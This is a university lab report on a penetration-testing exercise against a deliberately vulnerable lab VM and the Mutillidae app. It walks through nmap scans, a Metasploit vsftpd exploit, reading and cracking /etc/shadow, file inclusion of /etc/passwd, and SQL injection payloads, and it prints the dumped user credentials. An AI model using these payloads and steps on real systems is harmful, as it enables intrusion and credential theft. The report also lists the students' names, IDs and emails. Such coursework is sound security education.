
# <center>《网络攻防实战》实验报告</center>

### **第2次实验：渗透测试**

### 小组成员姓名：金宇航、成浩鹏

### 小组成员学号：181250062、181250020

### 18级软件学院大一班

### 小组成员邮箱：181250062@smail.nju.edu.cn、181250020@smail.nju.edu.cn

### 时间：2019.10.14

---

## 一、 实验目的

本次实验预期要学习到的知识、方法等

## 二、 实验内容

1. 使用netdiscover扫描地址，找到若干个地址

   ![](img/netdiscover.png)

2. 用nmap扫描找到的IP，发现192.168.8.6这个IP下开放的端口最多，可以确定是Linux靶机

   ![](img/nmap.png)

3. 用nc进行全连接端口扫描

   ![](img/ncport.png)

4. 用nmap扫描靶机的服务

   ![](img/nmapserver.png)

   ![](img/nmapserver2.png)

5. nmap扫描靶机的操作系统

   ![](img/os.png)

6. 连接25端口，判断是否存在root的用户帐号

   ![](img/smtp.png)

7. 在metasploit中查找vsftpd的模块，调用并且修改地址为靶机，进行渗透。发现渗透成功并且获得root权限。用`cat /etc/shadow`获取密码密文后，用John暴力破解

   ![](img/vsftpd.png)

   ![](img/john.png)

8. 访问`http://192.168.8.6/mutillidae/index.php?page=/etc/passwd`地址可以访问靶机上的`/etc/passwd`文件

   ![](img/mutilllidae.png)

9. 在register页面里，先在signature输入框输入`' #`然后提交表单，引发错误，可以看到sql的语句中使用了`INSERT INTO ... VALUES...`语句，那么就可以实现一次插入多条记录。在signature中输入`'), ('admin', 'admin', '') #`可以实现同事插入一条admin的记录，就做到了修改admin的密码，可以以admin登录了

   ![](img/register1.png)

   ![](img/register2.png)

10. 在sql注入提取用户数据界面, 输入命令"'or 1=1#"绕过验证,获取用户信息

> Username=admin
> Password=adminpass
> Signature=Monkey!
>
> Username=adrian
> Password=somepassword
> Signature=Zombie Films Rock!
>
> Username=john
> Password=monkey
> Signature=I like the smell of confunk
>
> Username=jeremy
> Password=password
> Signature=d1373 1337 speak
>
> Username=bryce
> Password=password
> Signature=I Love SANS
>
> Username=samurai
> Password=samurai
> Signature=Carving Fools
>
> Username=jim
> Password=password
> Signature=Jim Rome is Burning
>
> Username=bobby
> Password=password
> Signature=Hank is my dad
>
> Username=simba
> Password=password
> Signature=I am a cat
>
> Username=dreveil
> Password=password
> Signature=Preparation H
>
> Username=scotty
> Password=password
> Signature=Scotty Do
>
> Username=cal
> Password=password
> Signature=Go Wildcats
>
> Username=john
> Password=password
> Signature=Do the Duggie!
>
> Username=kevin
> Password=42
> Signature=Doug Adams rocks
>
> Username=dave
> Password=set
> Signature=Bet on S.E.T. FTW
>
> Username=ed
> Password=pentest

11. 在add-to-blog页面，插入语句使用的也是`VALUES`，所以可以利用来，以任意的身份发表文字

    ![](img/addtoblog1.png)

    ![](img/addtoblog2.png)

    ![](img/addtoblog3.png)

## 三、 实验结果

漏洞索引：

OSVDB (73573)

## 四、 实验中遇到的问题及解决方案

1. 用nmap对smb扫描时，出现脚本运行错误

   ![](img/nmapsmb.png)

## 五、 组员分工

给出组员在完成这个实验中的具体分工情况。

## 六、 实验的启示/意见和建议

---

附：本次实验你总共用了多长时间？包括学习相关知识时间、完成实验内容时间、完成实验报告时间。（仅做统计用，时间长短不影响本次实验的成绩。）